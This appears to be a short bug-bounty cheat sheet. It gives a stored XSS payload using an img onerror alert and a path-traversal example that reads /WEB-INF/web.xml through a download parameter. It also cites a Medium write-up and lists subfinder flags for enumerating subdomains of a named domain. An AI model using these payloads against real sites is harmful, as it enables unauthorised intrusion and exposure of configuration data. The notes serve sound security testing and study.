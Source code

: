 # Payload Stored XSS
###> <img src=x onerror​=alert(origin)>
# Payload LFI
Since we are working in a Java environment, I attempted to read /WEB-INF/web.xml because this file often contains a lot of useful information. By navigating to http://admin.target:8443/admin/download?fileName=/WEB-INF/web.xml, I was able to access some juicy information.! https://medium.com/@HX007/a-journey-of-limited-path-traversal-to-rce-with-40-000-bounty-fc63c89576ea




# subdomain finder

###> subfinder -d wimerasys.com -v  
      -d = particular one domain enumurate
      -dl = Maltipull domain enumurate from a file 
      -o, -output string = file to write output to
      -silent = show only subdomains name in output
      -nW, -active = display active subdomains only
      -oI, -ip = include IP address and domain name in output (-active only)
      -max-time int = minutes to wait for enumeration results (default 10)
      -ei, -exclude-ip = exclude IPs from the list of domains
